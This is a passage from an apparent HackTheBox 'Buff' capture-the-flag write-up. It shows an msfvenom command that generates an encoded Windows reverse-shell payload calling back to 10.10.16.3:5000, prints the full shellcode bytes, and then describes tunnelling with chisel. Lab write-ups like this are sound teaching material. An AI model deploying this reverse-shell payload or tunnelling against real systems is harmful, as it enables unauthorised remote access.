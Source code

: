 ```
┌──(HTB)─(kali㉿kali)-[~/Desktop/buff]
└─$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.3 LPORT=5000 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1869 bytes
payload =  b""
payload += b"\xba\xba\x41\x62\xd7\xdb\xd1\xd9\x74\x24\xf4\x58"
payload += b"\x29\xc9\xb1\x52\x31\x50\x12\x03\x50\x12\x83\x52"
payload += b"\xbd\x80\x22\x5e\xd6\xc7\xcd\x9e\x27\xa8\x44\x7b"
payload += b"\x16\xe8\x33\x08\x09\xd8\x30\x5c\xa6\x93\x15\x74"
payload += b"\x3d\xd1\xb1\x7b\xf6\x5c\xe4\xb2\x07\xcc\xd4\xd5"
payload += b"\x8b\x0f\x09\x35\xb5\xdf\x5c\x34\xf2\x02\xac\x64"
payload += b"\xab\x49\x03\x98\xd8\x04\x98\x13\x92\x89\x98\xc0"
payload += b"\x63\xab\x89\x57\xff\xf2\x09\x56\x2c\x8f\x03\x40"
payload += b"\x31\xaa\xda\xfb\x81\x40\xdd\x2d\xd8\xa9\x72\x10"
payload += b"\xd4\x5b\x8a\x55\xd3\x83\xf9\xaf\x27\x39\xfa\x74"
payload += b"\x55\xe5\x8f\x6e\xfd\x6e\x37\x4a\xff\xa3\xae\x19"
payload += b"\xf3\x08\xa4\x45\x10\x8e\x69\xfe\x2c\x1b\x8c\xd0"
payload += b"\xa4\x5f\xab\xf4\xed\x04\xd2\xad\x4b\xea\xeb\xad"
payload += b"\x33\x53\x4e\xa6\xde\x80\xe3\xe5\xb6\x65\xce\x15"
payload += b"\x47\xe2\x59\x66\x75\xad\xf1\xe0\x35\x26\xdc\xf7"
payload += b"\x3a\x1d\x98\x67\xc5\x9e\xd9\xae\x02\xca\x89\xd8"
payload += b"\xa3\x73\x42\x18\x4b\xa6\xc5\x48\xe3\x19\xa6\x38"
payload += b"\x43\xca\x4e\x52\x4c\x35\x6e\x5d\x86\x5e\x05\xa4"
payload += b"\x41\x6b\xd0\xb6\x92\x03\xe6\xb6\x87\x5b\x6f\x50"
payload += b"\xcd\x4b\x26\xcb\x7a\xf5\x63\x87\x1b\xfa\xb9\xe2"
payload += b"\x1c\x70\x4e\x13\xd2\x71\x3b\x07\x83\x71\x76\x75"
payload += b"\x02\x8d\xac\x11\xc8\x1c\x2b\xe1\x87\x3c\xe4\xb6"
payload += b"\xc0\xf3\xfd\x52\xfd\xaa\x57\x40\xfc\x2b\x9f\xc0"
payload += b"\xdb\x8f\x1e\xc9\xae\xb4\x04\xd9\x76\x34\x01\x8d"
payload += b"\x26\x63\xdf\x7b\x81\xdd\x91\xd5\x5b\xb1\x7b\xb1"
payload += b"\x1a\xf9\xbb\xc7\x22\xd4\x4d\x27\x92\x81\x0b\x58"
payload += b"\x1b\x46\x9c\x21\x41\xf6\x63\xf8\xc1\x06\x2e\xa0"
payload += b"\x60\x8f\xf7\x31\x31\xd2\x07\xec\x76\xeb\x8b\x04"
payload += b"\x07\x08\x93\x6d\x02\x54\x13\x9e\x7e\xc5\xf6\xa0"
payload += b"\x2d\xe6\xd2"
```

Additionally, we may need to do port-forwarding with chisel to forward port 8080 to our localhost as well. 

### Port-Forwarding using chisel

Firstly, we will have to download the windows version of chisel from the link [here](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz)

Afterwards, we will transfer the chisel executable to the windows server and forward network traffic from port 8888 of our chisel executable of the windows server to port 8000 of our chisel executable on the local machine.
